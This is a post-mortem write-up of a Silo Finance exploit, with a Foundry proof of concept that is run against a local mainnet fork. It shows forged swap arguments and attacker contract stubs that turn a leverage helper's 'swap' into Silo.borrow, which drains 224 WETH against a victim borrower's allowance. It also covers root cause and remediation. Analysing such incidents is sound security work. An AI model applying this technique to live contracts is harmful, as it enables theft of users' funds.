




# Silo Finance Exploit — Untrusted Swap/Silo Targets in `openLeveragePosition` Let Attacker Re-route a "Swap" into `Silo.borrow`

> **Vulnerability classes:** vuln/input-validation/missing · vuln/dependency/unsafe-external-call · vuln/access-control/missing-auth

> **Reproduction:** this PoC compiles and runs in an isolated Foundry project at [this project folder](.). It forks mainnet state at block `22_781_961` from a local anvil node (`http://127.0.0.1:8545`, state served from `anvil_state.json`, `createSelectFork → 127.0.0.1`); no public RPC is used at run time. The full verbose Foundry trace is in [output.txt](output.txt). No verified contract source is bundled under `sources/` (the directory is empty), so the Solidity snippets in §"The vulnerable code" are **reconstructed from observed on-chain behaviour** (the trace's call ordering, calldata, and storage diffs) and are anchored with `[output.txt:NNNN]` line references rather than `sources/...#L` file links.

## Key info

| Field | Value |
|-------|-------|
| Loss (single tx, this PoC) | **224 WETH** (`224_000_000_000_000_000_000` wei ≈ 224 ETH) drained from the WETH Silo; the historical attack (same path) is reported at **500,000+ USD** total in the PoC header |
| Vulnerable contract | [Silo LeveragedHelper — `0xCbEe4617ABF667830fe3ee7DC8d6f46380829DF9`](https://etherscan.io/address/0xCbEe4617ABF667830fe3ee7DC8d6f46380829DF9) (entry point) abusing [WETH Silo — `0x160287E2D3fdCDE9E91317982fc1Cc01C1f94085`](https://etherscan.io/address/0x160287E2D3fdCDE9e91317982fc1Cc01C1f994085) (the `Silo.borrow` it calls) |
| Victim pool / vault | WETH Silo (`0x160287E2D3fdCDE9E91317982fc1Cc01C1f94085`), the borrowable-asset silo of the weWEETH/WETH market |
| Attacker EOA | [`0x04377cfaf4b4a44bb84042218cdda4cebcf8fd62`](https://etherscan.io/address/0x04377cfaf4b4a44bb84042218cdda4cebcf8fd62) |
| Attacker contract (historical) | [`0x79C5c002410A67Ac7a0cdE2C2217c3f560859c7e`](https://etherscan.io/address/0x79C5c002410A67Ac7a0cdE2C2217c3f560859c7e) |
| Attack tx | [`0x1f15a193db3f44713d56c4be6679b194f78c2bcdd2ced5b0c7495b7406f5e87a`](https://etherscan.io/tx/0x1f15a193db3f44713d56c4be6679b194f78c2bcdd2ced5b0c7495b7406f5e87a) |
| Chain / block / date | Ethereum mainnet, fork block `22_781_961` (`vm.warp(0x685c038b)` → 1 750 860 683, 2025-06-25) |
| Compiler / optimizer | `Solc 0.8.34`, `evm_version = "cancun"`, no optimizer entries in `foundry.toml` (default runs) |
| Bug class | Improper input validation / arbitrary external call target — user-supplied `flashloanTarget`, `exchangeProxy`, and `silo` arguments in a leverage helper are not constrained to the chosen Silo market, so the helper is tricked into calling `Silo.borrow` as if it were a 0x-style swap |

## TL;DR

1. Silo Finance ships a public **`openLeveragePosition`** helper (the "Silo leverage helper", `0xCbEe4617…829DF9`) that takes three user-supplied argument blobs: a `FlashArgs` (`flashloanTarget`, `amount`), an opaque `swapArgs`, and a `DepositArgs` (`silo`, `amount`, `collateralType`). The helper is designed to flash-borrow from a Silo, run a swap via an "exchange proxy", deposit the proceeds as collateral, and finally borrow on behalf of the caller.
2. The helper trusts **every one of those addresses verbatim**. It never checks that `flashloanTarget` is a registered Silo of the market, that `exchangeProxy` is an allow-listed DEX router, or that `depositArgs.silo` is the same market the user deposited into. It also re-decodes `swapArgs` and `depositArgs` from inside the flash-loan callback, so the attacker can rewrite them mid-flight.
3. The attacker deploys a single contract (`SiloFinanceAttack`) that **impersonates the flash lender, the collateral Silo, the collateral token, and the swap exchange at the same time**. `flashLoan`, `asset`, `config`, `getSilos`, `balanceOf`, `allowance`, `approve`, `transferFrom`, `deposit`, and `borrow` are all stubs on the attacker contract.
4. `openLeveragePosition` is called with `flashArgs.flashloanTarget = <attacker>` and `amount = 0`. The helper then calls `flashLoan(receiver=helper, …)` on the attacker [output.txt:1609](output.txt). Inside that callback the attacker re-supplies a `SwapArgs` whose `exchangeProxy` is the **real WETH Silo** and whose `swapCallData` is `abi.encodeWithSelector(ISilo.borrow.selector, 224 ether, attacker, collateralBorrower)` [output.txt:1610].
5. Because the helper then re-enters its own `onFlashLoan` with this attacker-chosen payload, it ends up calling `WETH_Silo.borrow(224 ether, attacker, collateralBorrower)` — i.e. it **borrows 224 WETH from the real WETH Silo against the collateral borrower's position, and sends the WETH to the attacker** [output.txt:1613](output.txt).
6. The WETH Silo honours the borrow because the helper holds a prior `receiveApproval`/`borrow` allowance from the collateral borrower (`0x60BA…4860`); the trace shows `ShareDebtToken.mint(collateralBorrower, helper, 223_975_555_653_555_068_856)` [output.txt:1665](output.txt) and `WETH.transfer(attacker, 224 ether)` [output.txt:1675](output.txt).
7. After the real borrow the helper continues its "happy path": it calls the attacker's fake `deposit(1, …)` and fake `borrow(0, …)` [output.txt:1741](output.txt) [output.txt:1745](output.txt), emits `OpenLeverage(borrowerDeposit: 0, swapAmountOut: 1, totalDeposit: 1, totalBorrow: 0, …)` [output.txt:1749](output.txt), and returns the ERC-3156 magic value — so its post-conditions pass.
8. Net result: the attacker's EOA balance grows from **0 WETH to 224 WETH** (`224_000_000_000_000_000_000` wei) [output.txt:1757](output.txt) [output.txt:1768](output.txt), exactly matching the PoC's `assertEq`; `debtShares == 223_975_555_653_555_068_856` [output.txt:1760](output.txt). The collateral borrower is left owing the new debt.

## Background — what Silo Finance does

Silo Finance is an isolated-market money market. Each "market" is a pair of two **silos**: a *collateral* silo that holds the protected+collateral share token of one asset (here weWEETH, `0xCd5fE23C…59b7ee`) and a *borrow* silo that holds the liquidity of the paired asset (here WETH, `0xC02aaA39…756Cc2`). A `SiloConfig` links the two silos of a market and exposes `getConfigsForBorrow` [output.txt:1659](output.txt).

`Silo.borrow(assets, receiver, borrower)` lets an address that has been granted a borrow allowance draw liquidity from a borrow silo against collateral posted in the linked collateral silo, minting `ShareDebtToken` debt shares to `borrower` and transferring the underlying to `receiver`. The on-chain config for the weWEETH/WETH market (read in the trace) is:

| Parameter (borrow silo = WETH Silo) | Value (from trace) | Source |
|---|---|---|
| `silo` (borrow) | `0x160287E2D3fdCDE9E91317982fc1Cc01C1f94085` (WETH Silo) | [output.txt:1660](output.txt) |
| `token` (borrowable) | `0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2` (WETH) | [output.txt:1660](output.txt) |
| `debtShareToken` | `0x0a437aB5Cb5fE60ed4aE827D54bD0e5753f46Acb` | [output.txt:1660](output.txt) |
| `collateral silo` | `0xDb81E17B5CE19e9B2F64B378F98d88E4Ca6726E7` (weWEETH silo) | [output.txt:1660](output.txt) |
| `collateral token` | `0xCd5fE23C85820F7B72D0926FC9b05b43E359b7ee` (weWEETH) | [output.txt:1660](output.txt) |
| `daoFee` | `0.15e18` (15%) | [output.txt:1660](output.txt) |
| `maxLtv` (WETH silo) | `0.85e18` (85%) | [output.txt:1660](output.txt) |
| `lt` (WETH silo) | `0.88e18` (88%) | [output.txt:1660](output.txt) |
| `liquidationTargetLtv` | `0.87e18` (87%) | [output.txt:1660](output.txt) |
| `liquidationFee` | `0.035e18` (3.5%) | [output.txt:1660](output.txt) |
| `flashloanFee` | `0` | [output.txt:1660](output.txt) |
| `hookReceiver` | `0x86f4F35fD4a5ED56c0DEFfD77d7B6afBB88Db1c7` | [output.txt:1660](output.txt) |
| Chainlink oracle `quote` for weWEETH (8 dp) | `107_039_651` → 1.07039651 ETH per weWEETH | [output.txt:1713](output.txt) |
| Collateral borrower protected weWEETH (oracle-scale) | `1_386_177_371_611_400_691_923` (≈1386.18 weWEETH; the value Silo feeds to `ChainlinkV3Oracle.quote`) | [output.txt:1705](output.txt) |
| `ShareProtectedCollateralToken.balanceOfAndTotalSupply` raw (3-extra-decimals internal) | `1_386_177_371_611_400_691_923_000` / `1_386_190_371_831_588_322_082_000` | [output.txt:1687](output.txt) |

The leverage helper is a convenience wrapper: it lets a borrower supply some collateral, swap the borrowed asset back into the collateral asset, deposit that, and re-borrow — all atomically. Its design flaw is that **none of the addresses driving those steps are validated against the borrower's actual market**.

## The vulnerable code

> All snippets below are **RECONSTRUCTED — matches observed on-chain behaviour, not verified source**. They are reconstructed from the call ordering, calldata, and storage changes recorded in [output.txt](output.txt) and are anchored to specific trace lines. No `sources/...#L` references are fabricated.

### 1. `openLeveragePosition` trusts attacker-controlled `FlashArgs`, `swapArgs`, and `DepositArgs`

The PoC interface (`ILeverageHelper1356`) reconstructs the helper's entry signature from observed calldata [output.txt:1604](output.txt):

```solidity
// RECONSTRUCTED — matches observed on-chain behaviour, not verified source
interface ILeverageHelper1356 {
    struct FlashArgs   { address flashloanTarget; uint256 amount; }          // [output.txt:1604]
    struct DepositArgs { address silo; uint256 amount; uint8 collateralType; } // [output.txt:1604]

    function openLeveragePosition(
        FlashArgs   calldata flashArgs,
        bytes       calldata swapArgs,        // opaque blob; re-decoded inside the flash callback
        DepositArgs calldata depositArgs
    ) external payable;
}
```

`flashArgs.flashloanTarget` is called as the ERC-3156 flash lender; `swapArgs` is decoded inside the callback into `SwapArgs{exchangeProxy, sellToken, buyToken, allowanceTarget, swapCallData}`; `depositArgs.silo` is called as the destination Silo. None of these addresses is checked against the market the caller actually has collateral in — they are simply used.

### 2. The helper calls `flashLoan` on the attacker, then re-decodes swap data inside its own `onFlashLoan`

The trace shows the helper calling `flashLoan(helper, attacker, 0, …)` on whatever address the user supplied [output.txt:1609](output.txt), and then — inside the attacker-controlled `flashLoan` body — the attacker *calls back* `onFlashLoan` on the helper with a freshly forged `(swapArgs, depositArgs)` payload [output.txt:1610](output.txt). The reconstructed helper behaviour is:

```solidity
// RECONSTRUCTED — matches observed on-chain behaviour, not verified source
function openLeveragePosition(FlashArgs calldata f, bytes calldata swapArgs, DepositArgs calldata d) external payable {
    // f.flashloanTarget is taken verbatim — no SiloConfig / market check
    IERC3156FlashLender(f.flashloanTarget).flashLoan(
        IERC3156FlashBorrower(address(this)), // receiver == helper itself
        f.flashloanTarget,                     // "token"
        f.amount,
        abi.encode(swapArgs, d)
    );
    // …after the flash: deposit + "borrow" against d.silo, again attacker-controlled (see §3)
}

// The helper IS the ERC-3156 receiver; it re-decodes swapArgs here:
function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data)
    external returns (bytes32)
{
    (bytes memory swapArgsEncoded, DepositArgs memory d) = abi.decode(data, (bytes, DepositArgs));
    SwapArgs memory s = abi.decode(swapArgsEncoded, (SwapArgs));
    // s.exchangeProxy is taken verbatim — no DEX allow-list
    (bool ok) = IExchangeProxy(s.exchangeProxy).swap(  // <-- routed into WETH Silo::borrow at [output.txt:1613]
        s.sellToken, s.buyToken, s.allowanceTarget, s.swapCallData
    );
    require(ok);
    return keccak256("ERC3156FlashBorrower.onFlashLoan"); // [output.txt:1752]
}
```

Because `swapArgs` is decoded **inside** the callback, the attacker's `flashLoan` can supply a *different* `swapArgs` than the outer caller did. In the PoC the outer `swapArgs` is empty (`0x`, [output.txt:1604](output.txt)); the dangerous payload is injected only inside the callback [output.txt:1610](output.txt).

### 3. The "swap" `exchangeProxy` is the WETH Silo and `swapCallData` is `Silo.borrow`

The attacker's forged `SwapArgs` points the helper's "swap" at the real WETH Silo and packs `Silo.borrow` selector + args into `swapCallData`:

```solidity
// From the PoC (test/SiloFinance_exp.sol:134-142) — the forged swap descriptor
SwapArgs memory swapArgs = SwapArgs({
    exchangeProxy:    WETH_SILO,                                  // 0x1602…4085
    sellToken:        address(this),                              // attacker
    buyToken:         address(this),                              // attacker
    allowanceTarget:  address(this),                              // attacker
    swapCallData:     abi.encodeWithSelector(
        ISilo1356.borrow.selector,
        BORROW_AMOUNT,           // 224 ether                      // [output.txt:1613]
        profitReceiver,          // attacker EOA = `receiver`       // [output.txt:1613]
        COLLATERAL_BORROWER      // 0x60BA…4860 = `borrower`        // [output.txt:1613]
    )
});
```

The trace confirms this verbatim: `WETH Silo::borrow(224000000000000000000, Attacker: […fd62], Collateral borrower: […4860])` [output.txt:1613](output.txt), entered via `Silo::borrow` `delegatecall` [output.txt:1614](output.txt) and `Actions::5937128b(…)` [output.txt:1615](output.txt).

### 4. The post-flash "deposit + borrow" is routed at the attacker's fake Silo

After the real borrow returns, the helper continues its flow and calls `deposit` and `borrow` on `depositArgs.silo` — which the attacker also set to `address(this)`. The attacker's stubs only accept the exact `(assets=1, receiver=attack, collateralType=1)` and `(assets=0, receiver=helper, borrower=attack)` shapes [output.txt:1741](output.txt) [output.txt:1745](output.txt):

```solidity
// From the PoC (test/SiloFinance_exp.sol:190-199) — attacker's fake Silo/token surface
function deposit(uint256 assets, address receiver, uint8 collateralType)
    external pure returns (uint256 shares) {
    require(assets == 1 && receiver != address(0) && collateralType == 1, "unexpected fake deposit");
    return 0;                                                              // [output.txt:1742]
}
function borrow(uint256 assets, address receiver, address borrower)
    external returns (uint256 shares) {
    require(assets == 0 && receiver == SILO_LEVERAGE_HELPER && borrower == address(this), "unexpected fake borrow");
    debtShares = HISTORICAL_DEBT_SHARES;                                   // [output.txt:1748]
    return 0;
}
```

So the helper's own accounting (`OpenLeverage(borrowerDeposit: 0, swapAmountOut: 1, totalDeposit: 1, totalBorrow: 0)` [output.txt:1749](output.txt)) looks healthy and the function returns the ERC-3156 success magic value [output.txt:1752](output.txt). The damage was already done in §3.

## Root cause — why it was possible

The root cause is **lack of destination-binding for user-supplied addresses**. `openLeveragePosition` accepts three address-bearing blobs (`FlashArgs.flashloanTarget`, `SwapArgs.exchangeProxy`/`sellToken`/`buyToken`/`allowanceTarget`, `DepositArgs.silo`) and uses each of them as a *trusted* counterparty (flash lender, DEX, Silo) without any of these checks:

- **No allow-list / no market binding.** `flashloanTarget`, `exchangeProxy`, and `depositArgs.silo` should all be constrained to addresses derived from the borrower's own `SiloConfig` (the same market the collateral sits in). They are not. The PoC sets all three to an attacker contract and additionally points `exchangeProxy` at an unrelated real Silo.
- **No re-entrancy guard on the swap payload.** `swapArgs` is *re-decoded* inside the flash callback (`onFlashLoan`), so a malicious flash lender can substitute a completely different swap descriptor mid-flight. The outer caller cannot pin it.
- **Treating opaque calldata as an external call.** `exchangeProxy.swap(swapCallData)` is a generic `caller → arbitrary address → arbitrary calldata` primitive. With `exchangeProxy = WETH Silo` and `swapCallData = borrow.selector…`, the helper is turned into a borrow oracle.
- **Borrower-side allowance was over-broad.** The collateral borrower (`0x60BA…4860`) had granted the leverage helper a borrow allowance. Combined with the above, any caller could direct that allowance at `WETH_Silo.borrow` and choose the `receiver`. The trace shows `ShareDebtToken.mint(collateralBorrower, helper, 223_975_555_653_555_068_856)` [output.txt:1665](output.txt) — i.e. debt is booked to the collateral borrower while WETH goes to the attacker [output.txt:1675](output.txt).

It is **not** a re-entrancy bug in `Silo.borrow` itself (Silo does toggle reentrancy protection, [output.txt:1622](output.txt) / [output.txt:1723](output.txt)); it is a misuse-of-trust bug *in front of* Silo, where the helper hands an attacker the pen.

## Preconditions

1. A leverage helper with the `openLeveragePosition(FlashArgs, bytes swapArgs, DepositArgs)` signature is publicly callable (no allow-listing of callers). ✅ in the PoC (`Silo leverage helper`).
2. At least one borrower has granted the helper a **borrow allowance** against a real Silo. ✅ — the collateral borrower `0x60BA…4860` is the `borrower` argument and the mint succeeds [output.txt:1665](output.txt).
3. That borrower has sufficient collateral to remain solvent at the chosen borrow size. ✅ — ~1386.18 weWEETH of protected collateral [output.txt:1687](output.txt) at oracle price 1.07039651 [output.txt:1713](output.txt) vs. 224 WETH borrowed, well inside the 85% `maxLtv` on the WETH silo [output.txt:1660](output.txt).
4. The helper does not validate `flashloanTarget` / `exchangeProxy` / `depositArgs.silo` against the borrower's market. ✅ — see §"The vulnerable code".
5. `swapArgs` is (re-)decoded inside the flash callback, so the flash lender controls it. ✅ — [output.txt:1610](output.txt).

## Attack walkthrough (with on-chain numbers from the trace)

| # | Call / event | Counterparties | Amount (raw wei) | Amount (human) | Trace |
|---|---|---|---|---|---|
| 0 | `ContractTest::testExploit` reads attacker WETH balance | attacker EOA | `0` | 0 WETH | [output.txt:1593](output.txt) / [output.txt:1596](output.txt) |
| 1 | Deploy attacker contract `SiloFinanceAttack` | — | `4946` bytes code | — | [output.txt:1599](output.txt) |
| 2 | `SiloFinanceAttack::execute()` → `Silo leverage helper::openLeveragePosition(flashloanTarget=attacker, amount=0, swapArgs=0x, depositArgs.silo=attacker, depositArgs.amount=0, collateralType=1)` | helper | — | — | [output.txt:1604](output.txt) |
| 3 | helper reads attacker's `config()` and `asset()` (both return `address(this)`) | attacker | — | — | [output.txt:1605](output.txt) [output.txt:1607](output.txt) |
| 4 | helper calls `SiloFinanceAttack::flashLoan(receiver=helper, token=attacker, amount=0, data=…)` | helper → attacker | `0` | 0 | [output.txt:1609](output.txt) |
| 5 | attacker re-invokes `Silo leverage helper::onFlashLoan(initiator=attacker, token=attacker, amount=0, fee=0, data=abi.encode(swapArgs, depositArgs))` with **forged** swap descriptor (`exchangeProxy=WETH Silo`, `swapCallData=borrow(224e18, attacker, collateralBorrower)`) | attacker → helper | — | — | [output.txt:1610](output.txt) |
| 6 | helper's onFlashLoan calls `WETH Silo::borrow(224000000000000000000, Attacker, Collateral borrower)` thinking it is `exchangeProxy.swap(...)` | helper → WETH Silo | `224_000_000_000_000_000_000` | 224 WETH | [output.txt:1613](output.txt) |
| 7 | inside `Silo.borrow`: `SiloConfig::hasDebtInOtherSilo(WETH Silo, collateralBorrower)` → `false` | Silo → SiloConfig | — | false | [output.txt:1616](output.txt) [output.txt:1621](output.txt) |
| 8 | `SiloConfig::turnOnReentrancyProtection()` | — | — | — | [output.txt:1622](output.txt) |
| 9 | `accrueInterestForBothSilos` accrues both silos (collateral weWEETH IRM `0x05bd…a53`, borrow WETH IRM `0xDB13…E1c`), daoFee `0.15e18` | — | — | — | [output.txt:1624](output.txt) [output.txt:1625](output.txt) [output.txt:1639](output.txt) |
| 10 | `SiloConfig::getConfigsForBorrow(WETH Silo)` returns both `ConfigData` blocks (maxLtv=0.85, lt=0.88, liquidationTargetLtv=0.87, liquidationFee=0.035, flashloanFee=0) | — | — | — | [output.txt:1660](output.txt) |
| 11 | `ShareDebtToken::totalSupply()` before mint | — | `2_314_608_095_639_771_350_177` | ≈2314.61 debt shares | [output.txt:1663](output.txt) |
| 12 | `ShareDebtToken::mint(collateralBorrower, helper, 223975555653555068856)` — **debt booked to the collateral borrower** | WETH Silo → debt token | `223_975_555_653_555_068_856` | ≈223.98 debt shares | [output.txt:1665](output.txt) |
| 13 | `emit Transfer(0x0, collateralBorrower, 223975555653555068856)` (debt shares minted) | — | `223_975_555_653_555_068_856` | ≈223.98 | [output.txt:1668](output.txt) |
| 14 | **`WETH::transfer(Attacker, 224000000000000000000)` — WETH leaves the silo for the attacker** | WETH Silo → attacker | `224_000_000_000_000_000_000` | 224 WETH | [output.txt:1675](output.txt) |
| 15 | `emit Transfer(WETH Silo, Attacker, 224000000000000000000)` (WETH transfer) | — | `224_000_000_000_000_000_000` | 224 WETH | [output.txt:1676](output.txt) |
| 16 | `ShareProtectedCollateralToken.balanceOfAndTotalSupply(collateralBorrower)` (3-extra-decimals internal: `1_386_177_371_611_400_691_923_000` / `1_386_190_371_831_588_322_082_000`) | — | `1_386_177_371_611_400_691_923_000` (raw) | raw internal | [output.txt:1687](output.txt) |
| 16b | solvency check: collateral passed to oracle = `1386177371611400691923` weWEETH (≈1386.18 weWEETH) | — | `1_386_177_371_611_400_691_923` | ≈1386.18 weWEETH | [output.txt:1705](output.txt) |
| 17 | `ChainlinkV3Oracle::quote(1386177371611400691923, weWEETH)` → `1_483_759_420_813_816_376_845` (≈1483.76 ETH-equivalent collateral value) using feed `107_039_651` (8 dp) | — | quote `1_483_759_420_813_816_376_845`; feed `107_039_651` | ≈1483.76 ETH; 1.07039651 | [output.txt:1705](output.txt) [output.txt:1713](output.txt) [output.txt:1721](output.txt) |
| 18 | `SiloConfig::turnOffReentrancyProtection()` | — | — | — | [output.txt:1723](output.txt) |
| 19 | `emit Borrow(sender=helper, receiver=Attacker, owner=collateralBorrower, assets=224000000000000000000, shares=223975555653555068856)` | — | assets `224e18`; shares `223_975_555_653_555_068_856` | 224 WETH; ≈223.98 | [output.txt:1728](output.txt) |
| 20 | helper post-flash: `SiloFinanceAttack::balanceOf(helper)` → `1` | helper → attacker | `1` | 1 (fake "collateral") | [output.txt:1731](output.txt) [output.txt:1732](output.txt) |
| 21 | helper calls fake `transferFrom`/`allowance`/`approve` on attacker | helper → attacker | — | — | [output.txt:1735](output.txt) [output.txt:1737](output.txt) [output.txt:1739](output.txt) |
| 22 | `SiloFinanceAttack::deposit(1, attacker, 1)` → `0` | helper → attacker | `1` | 1 | [output.txt:1741](output.txt) [output.txt:1742](output.txt) |
| 23 | `SiloFinanceAttack::getSilos()` → `(attacker, attacker)` | helper → attacker | — | — | [output.txt:1743](output.txt) |
| 24 | `SiloFinanceAttack::borrow(0, helper, attacker)` → `0`; sets `debtShares = HISTORICAL_DEBT_SHARES` | helper → attacker | `0` | 0 | [output.txt:1745](output.txt) [output.txt:1748](output.txt) |
| 25 | `emit OpenLeverage(borrower=attacker, borrowerDeposit=0, swapAmountOut=1, flashloanAmount=0, totalDeposit=1, totalBorrow=0, leverageFee=0, flashloanFee=0)` | — | — | — | [output.txt:1749](output.txt) |
| 26 | helper returns ERC-3156 magic `0x439148f0bbc682ca079e46d6e2c2f0c1e3b820f1a291b069d8882abf8cf18dd9` | helper → attacker | — | — | [output.txt:1752](output.txt) |
| 27 | `execute()` returns `debtShares = 223_975_555_653_555_068_856` | — | `223_975_555_653_555_068_856` | ≈223.98 | [output.txt:1755](output.txt) |
| 28 | attacker WETH balance after exploit | attacker EOA | `224_000_000_000_000_000_000` | **224 WETH** | [output.txt:1757](output.txt) / [output.txt:1768](output.txt) |
| 29 | `assertEq(224e18, 224e18)` and `assertEq(debtShares, 223_975_555_653_555_068_856)` | — | — | — | [output.txt:1758](output.txt) [output.txt:1760](output.txt) |

**Pool / silo state evolution (this tx):**

| Stage | WETH Silo `totalAssetsStorage(2)` | Collateral borrower debt shares | Collateral borrower protected weWEETH | Trace |
|---|---|---|---|---|
| Before borrow (debt token pre-mint `totalSupply`) | — | existing position; `hasDebtInOtherSilo=false` | ≈1386.18 weWEETH | [output.txt:1616](output.txt) [output.txt:1663](output.txt) |
| After mint | — | `+223_975_555_653_555_068_856` debt shares | unchanged | [output.txt:1665](output.txt) |
| After `WETH.transfer` | WETH Silo loses 224 WETH to attacker | — | — | [output.txt:1675](output.txt) |
| Solvency re-check | collateral `quote` ≈1483.76 ETH ≫ 224 ETH borrowed (LTV ≈ 15% ≪ 85% maxLtv) | — | — | [output.txt:1705](output.txt) [output.txt:1721](output.txt) |

### Profit / loss accounting (WETH, raw wei)

| Leg | Debit (WETH out) | Credit (WETH in) | Trace |
|---|---|---|---|
| Attacker starting WETH balance | — | `0` | [output.txt:1593](output.txt) |
| `WETH.transfer` from WETH Silo to attacker | — | `+224_000_000_000_000_000_000` | [output.txt:1675](output.txt) |
| Attacker ending WETH balance | — | `224_000_000_000_000_000_000` | [output.txt:1757](output.txt) / [output.txt:1765](output.txt) |
| **Net profit (asserted)** | — | **`224_000_000_000_000_000_000` wei = 224 WETH** | [output.txt:1758](output.txt) |
| Memo: debt shares minted to the victim (`collateralBorrower`) | `223_975_555_653_555_068_856` (≈223.98 debt shares) | — | [output.txt:1665](output.txt) |

The 224 WETH profit is exactly the PoC's first assertion: `assertEq(IERC20(WETH).balanceOf(ATTACKER) - attackerWethBefore, BORROW_AMOUNT)` with `BORROW_AMOUNT = 224 ether` [output.txt:1758](output.txt). The corresponding debt (`223_975_555_653_555_068_856` shares) is left on the collateral borrower's books, not the attacker's — that is what makes this theft rather than a loan.

## Diagrams

### Sequence of the attack



### Pool / silo state evolution



### The flaw inside `openLeveragePosition` / `onFlashLoan`



### Why the drain is theft: who pays

This is not an AMM constant-product bug, so instead of a `k` invariant diagram the relevant "before vs. after" is the **balance sheet shift** between the attacker and the collateral borrower:



## Why each magic number

| Constant in the PoC | Value | Why this value |
|---|---|---|
| `ATTACKER` | `0x04377cfaF4b4A44bb84042218cdDa4cEBCf8fd62` | The historical attacker EOA; reused so `assertEq` against the EOA balance and the `borrow.receiver` argument both match the on-chain incident. |
| `HISTORICAL_ATTACK_CONTRACT` | `0x79C5c002410A67Ac7a0cdE2C2217c3f560859c7e` | Label-only; the PoC deploys a fresh `SiloFinanceAttack` (`0x5615dEB7…3b72f`, [output.txt:1599](output.txt)) rather than recreating the original runtime code. |
| `SILO_LEVERAGE_HELPER` | `0xCbEe4617ABF667830fe3ee7DC8d6f46380829DF9` | The vulnerable entry-point contract; the helper whose `openLeveragePosition` / `onFlashLoan` are abused. |
| `WETH_SILO` | `0x160287E2D3fdCDE9E91317982fc1Cc01C1f94085` | Targeted real Silo used both as `exchangeProxy` and as the `silo` whose `borrow` is called. Confirmed as the borrow silo by `getConfigsForBorrow` [output.txt:1660](output.txt). |
| `COLLATERAL_BORROWER` | `0x60BAF994f44dd10c19C0c47cbFE6048a4fFe4860` | The victim whose prior borrow allowance on the helper is consumed; becomes the `borrower` argument of `Silo.borrow` so the mint lands on them [output.txt:1665](output.txt). |
| `WETH_TOKEN` | `0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2` | The drained asset (WETH) and the `token` field of the borrow config [output.txt:1660](output.txt). |
| `BORROW_AMOUNT` | `224 ether` = `224_000_000_000_000_000_000` | The size of the theft. Chosen so that the resulting LTV (~224 / ~1483.76 ≈ 15%) stays well under the 85% `maxLtv`, letting the borrow pass the solvency check [output.txt:1705](output.txt) [output.txt:1721](output.txt). |
| `HISTORICAL_DEBT_SHARES` | `223_975_555_653_555_068_856` | Exact debt-shares count minted to the victim in the historical tx; reproduced by `Silo.borrow` at fork block `22_781_961` and asserted in the PoC [output.txt:1665](output.txt) [output.txt:1760](output.txt). |
| `swapArgs.exchangeProxy = WETH_SILO` | see above | The pivot: this is the address the helper will `delegate`-style call as a "swap router"; because it is the real WETH Silo, `borrow` is what actually runs [output.txt:1613](output.txt). |
| `swapArgs.swapCallData = borrow(BORROW_AMOUNT, profitReceiver, COLLATERAL_BORROWER)` | ABI of `ISilo1356.borrow` | Sets `receiver = attacker EOA` (so WETH flows to the attacker) and `borrower = victim` (so debt is booked to them). |
| `flashArgs.amount = 0`, `depositArgs.amount = 0`, `collateralType = 1` | zeros and `1` | Keep the fake flash loan and fake deposit no-ops while satisfying the helper's non-zero / collateral-type expectations; `balanceOf(helper)` returns `1` so the helper's "I got 1 unit from the swap" branch fires [output.txt:1732](output.txt). |
| Fork block `22_781_961`, `vm.warp(0x685c038b)` | 22 781 961 / 1 750 860 683 | Pin mainnet state to the historical attack block so interest accrual, oracle rounds, and share conversions reproduce `HISTORICAL_DEBT_SHARES` exactly [output.txt:1569](output.txt) [output.txt:1573](output.txt). |

## Remediation

1. **Bind every address to the borrower's market.** Derive `flashloanTarget`, `exchangeProxy`, and `depositArgs.silo` from the `SiloConfig` of the borrower's actual collateral silo (or from a protocol-owned registry) — never from calldata. Reject any user-supplied address that is not a registered silo / approved flash lender / allow-listed DEX router for that market.
2. **Pin `swapArgs` before the flash and do not re-decode it inside `onFlashLoan`.** Encode the swap descriptor in `openLeveragePosition` before calling `flashLoan`, pass it through as an immutable blob, and have `onFlashLoan` consume exactly that blob (hash-commit if needed). A flash lender must not be able to substitute the swap.
